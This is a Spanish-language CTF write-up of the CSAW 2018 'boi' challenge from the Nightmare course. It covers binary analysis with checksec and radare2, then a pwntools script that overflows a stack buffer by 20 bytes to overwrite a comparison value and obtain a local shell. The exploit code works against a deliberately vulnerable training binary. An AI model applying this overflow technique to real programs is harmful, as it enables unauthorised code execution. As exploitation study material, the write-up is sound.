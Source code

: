 ```yaml
---
layout: post
title: Boi - Nightmare
tags: [ctf, rev, nightmare]
---
```


**Csaw 2018 Quals Boi**


## Análisis

Lo primero que hago es ejecutar **pwn checksec** sobre el binario.

```
h3rshel@kali:~/Desktop/nightmare$ pwn checksec boi           
[*] '/home/h3rshel/Desktop/nightmare/boi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Caracteristicas:
- Es un binario de 64bits
- Tiene Stack Canary
- El stack no es ejecutable (NX enabled)

Para este ejercicio, ninguna de estas caracteristicas afecta.

### Boi

Abro el binario con **radare2**, lo analizo y listo las funciones.
 
```
[0x00400641]> afl
0x00400530    1 42           entry0
0x00400510    1 6            sym.imp.__libc_start_main
0x00400560    4 50   -> 41   sym.deregister_tm_clones
0x004005a0    4 58   -> 55   sym.register_tm_clones
0x004005e0    3 28           sym.__do_global_dtors_aux
0x00400600    4 38   -> 35   entry.init0
0x00400750    1 2            sym.__libc_csu_fini
0x00400754    1 9            sym._fini
0x004006e0    4 101          sym.__libc_csu_init
0x00400641    6 159          main
0x00400626    1 27           sym.run_cmd
0x004004f0    1 6            sym.imp.system
0x00400498    3 26           sym._init
0x00400520    1 6            sym..plt.got
0x004004d0    1 6            sym.imp.puts
0x004004e0    1 6            sym.imp.__stack_chk_fail
0x00400500    1 6            sym.imp.read
[...]
```

Entre ellas hay que destacar dos:
- main: Funcion principal
- run_cmd: Ejecuta el comando que se le pase como parámetro.

### Main

![img](../imgs/write-ups/nightmare/boi/boi_1.png)

En la función **main** hay que destacar 3 partes:
1. Asignación de valores a las variables
2. Entrada del usuario
3. Comparación y ejecución del comando

He renombrado las variables **input** y **deadbeef**  para que sea más fácil de entender.

Para poder obtener **shell**, es necesario que la comparación del punto 3 sea correcta, para ello la variable inicializada como "0xdeadbeef" tiene que ser modificada a "0xcaf3baee". En el caso contrario el programa ejecutará el comando **date**.

## Explotación

Si situo un breakpoint justo antes de la instrucción "cmp" y se puede ver la entrada del usuario y unos bytes a continuación el valor que hay que sobreescribir.

![img](../imgs/write-ups/nightmare/boi/boi_2.png)

Se puede contar a mano la diferencia de bytes entre una variable y otra o también fijandose en la declaración de las variables al comienzo de la función **main** se pueden restar las dos direcciónes y obtener su diferencia.

```
  0x30
- 0x1c
--------
  0x14 
```

De ambas formas obtenemos una diferencia de 0x14 (20) byte.

Como la diferencia entre las direcciones de ambas variables es menor a la cantidad de bytes que toma el programa como entrada (0x18), es posible sobreescribir la variable "deadbeef".

### Exploit

Creo este script en python el cual será el encargado de mandar el payload al programa.

```py
# Importar la librería pwntools
from pwn import *

# inicial el proceso
target = process('./boi')

payload = b"A" * 0x14 # padding
payload += p32(0xcaf3baee) # sobreescribe variable

target.send(payload)

target.interactive() # obtener shell
```

Al ejecutar el script, obtengo shell.

```
h3rshel@kali:~/Desktop/nightmare$ python3 exploit.py
[+] Starting local process './boi': pid 80139
[*] Switching to interactive mode
Are you a big boiiiii??
$ whoami
h3rshel
$ :)
```

Página original: **[Nightmare](https://guyinatuxedo.github.io/)**.
